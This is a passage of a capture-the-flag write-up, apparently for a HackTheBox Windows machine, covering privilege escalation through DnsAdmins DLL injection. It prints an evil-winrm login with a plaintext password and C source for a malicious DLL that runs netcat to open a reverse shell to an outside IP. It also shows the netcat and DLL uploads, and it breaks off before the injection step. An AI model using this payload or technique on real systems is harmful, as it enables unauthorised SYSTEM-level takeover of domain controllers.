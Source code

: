 This means that we are now able to log in as Ryan:

```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
``` 

Ryan is part of DnsAdmin Group, as DnsAdmin we can inject a DLL into the DNS service running on the Domain Controller as SYSTEM. I have crafted a simple DLL which fullfills all requirements for the dns.exe and also executes netcat to give me access to DC as SYSTEM.


```c#
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.164 9111");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```
To exploit this we first have to get the netcat.exd and our mallicious dll onto the system, for this used to upload function of evil-winrm:

```
upload /root/htb/resolute/nc.exe
Info: Uploading /root/htb/resolute/nc.exe to C:\windows\system32\spool\drivers\color\nc.exe

Data: 53248 bytes of 53248 bytes copied

Info: Upload successful!
```
and 
```
upload /root/htb/resolute/exploit.dll
Info: Uploading /root/htb/resolute/pwn.dll to C:\windows\system32\spool\drivers\color\exploit.dll

Data: 305604 bytes of 305604 bytes copied

Info: Upload successful!
```
Now we are only 3 Commands away from our shell as SYSTEM, first inject the dll into the DNS-Service 
